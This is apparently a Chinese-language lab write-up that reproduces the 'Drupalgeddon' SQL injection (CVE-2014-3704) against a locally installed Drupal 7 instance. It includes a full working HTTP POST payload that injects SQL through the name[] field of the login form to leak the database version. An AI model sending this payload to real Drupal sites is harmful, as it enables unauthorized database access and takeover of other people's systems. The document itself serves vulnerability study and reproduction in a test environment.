

# Drupal < 7.32 “Drupalgeddon” SQL注入漏洞（CVE-2014-3704）

> 漏洞说明

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。


> 前提条件

版本：7.0 < Drupal < 7.32 


> 利用工具


> 漏洞复现

启动环境，访问http://192.168.40.77:8080/可看到Drupal的安装页面，使用默认配置安装即可。


其中，Mysql数据库名填写drupal，数据库用户名、密码为root，地址为mysql


安装完成后访问http://192.168.40.77:8080/如下


该漏洞无需登录，直接构造url

```http
POST http://192.168.40.77:8080/?q=node&destination=node HTTP/1.1
Host: 192.168.40.77:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,version()),0)%23]=bob&name[0]=a

```

成功注出数据库版本

